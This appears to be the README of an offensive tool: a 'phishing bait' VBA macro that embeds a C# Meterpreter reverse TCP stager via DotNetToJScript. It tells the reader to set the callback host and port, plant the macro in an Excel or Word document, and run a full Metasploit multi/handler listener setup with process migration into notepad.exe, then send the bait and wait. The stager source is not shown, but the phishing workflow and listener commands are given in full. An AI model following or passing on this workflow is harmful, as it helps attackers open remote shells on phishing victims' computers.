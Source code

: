 ```
   _____                                _____          __
  /     \ _____    ___________  ____   /     \   _____/  |_  ___________
 /  \ /  \\__  \ _/ ___\_  __ \/  _ \ /  \ /  \_/ __ \   __\/ __ \_  __ \
/    Y    \/ __ \\  \___|  | \(  <_> )    Y    \  ___/|  | \  ___/|  | \/
\____|__  (____  /\___  >__|   \____/\____|__  /\___  >__|  \___  >__|
        \/     \/     \/                     \/     \/          \/

                       Metasploit Big Game Phising Bait - by Cn33liz 2017
```
### VBA Reversed TCP Meterpreter Stager
CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

```
Usage:
Change RHOST and RPORT to suit your needs:

Then create an awesome Excel or Word Document containing your VBA Bait

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 443
set AutoRunScript post/windows/manage/migrate NAME=notepad.exe
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j

Then throw out your Bait and wait...
```
